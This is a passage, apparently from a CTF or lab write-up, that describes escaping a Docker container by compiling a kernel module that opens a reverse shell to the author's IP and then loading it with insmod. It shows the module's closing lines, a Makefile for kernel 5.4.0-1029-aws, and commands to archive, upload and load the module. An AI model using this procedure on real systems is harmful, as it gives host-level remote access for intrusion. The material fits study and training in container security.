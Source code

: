```c
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
{: file='rshell.c'}

In that case, I have a module which attempts to open a reverse shell to my VPN IP.

>Make sure to change the IP before compiling!

Secondly, we need to know what is the kernel of the host.

>Docker containers are running on top of the host kernel, unlike VMs. Therefore, by running `uname -r`, we can see the host's kernel info.

```shell
/# uname -r
uname -r
5.4.0-1029-aws
```

Now we need to make sure we have the following packages installed in order to compile the module successfully:

```
- linuix-headers--5.4.0-1029
- gcc
- make
```

We can now specify the kernel version in the Makefile and run `make` to compile the module.

```make
obj-m +=rshell.o
all:
	make -C /lib/modules/5.4.0-1029-aws/build M=$(PWD) modules
clean:
	make -C /lib/modules/5.4.0-1029-aws/build M=$(PWD) clean
```

And finally, we can archive the folder in which we compiled the module, upload it to the container, extract it, set our listener and load the module:

- Archive:

```shell
tar -cvf doc_esc.tar docker_escape
```

- Extract:

```shell
tar -xvf doc_esc.tar
```

- Load the module:

```shell
insmod rshell.ko
```
